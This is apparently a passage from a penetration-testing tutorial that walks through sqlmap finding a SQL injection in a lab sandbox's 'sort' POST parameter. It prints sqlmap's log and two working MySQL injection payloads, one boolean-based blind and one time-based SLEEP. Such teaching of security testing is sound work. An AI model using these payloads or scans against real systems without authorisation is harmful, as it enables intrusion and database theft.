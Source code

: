 
Sqlmap will issue multiple requests to determine a parameter's vulnerability to SQL injection. It also attempts to determine what database software is being used so it can adjust the attacks to that software. As it is running, it may prompt us for the tests to perform. In this case, we can accept the defaults by pressing `ENTER` when prompted.

However, by reducing the number of requests, the scan might fail to identify some vulnerable parameters. With any automated tool, we need to balance the speed and coverage of a scan.

Once sqlmap has identified a vulnerable parameter, it will ask us if we want to keep testing the other parameters.

sqlmap identified a vulnerable parameter
```bash
[15:02:06] [WARNING] POST parameter 'name' does not seem to be injectable
[15:02:06] [WARNING] heuristic (basic) test shows that POST parameter 'sort' might not be injectable
[15:02:06] [INFO] testing for SQL injection on POST parameter 'sort'
[15:02:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:02:06] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:02:06] [INFO] POST parameter 'sort' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --code=200)
[15:02:07] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
```

For the sake of demonstration, we will accept the default, which is to skip the other parameters. After several moments, sqlmap will complete its scan and present the results.


sqlmap results
```bash
sqlmap identified the following injection point(s) with a total of 319 HTTP(s) requests:
---
Parameter: sort (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: db=mysql&name=taco&sort=(SELECT (CASE WHEN (4205=4205) THEN 'id' ELSE (SELECT 5575 UNION SELECT 9292) END))&order=asc

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: db=mysql&name=taco&sort=id AND (SELECT 6144 FROM (SELECT(SLEEP(5)))WrFh)&order=asc
---
[15:03:47] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:03:48] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 230 times
[15:03:48] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/sql-sandbox'

[*] ending @ 15:03:48 /2021-07-28/
```
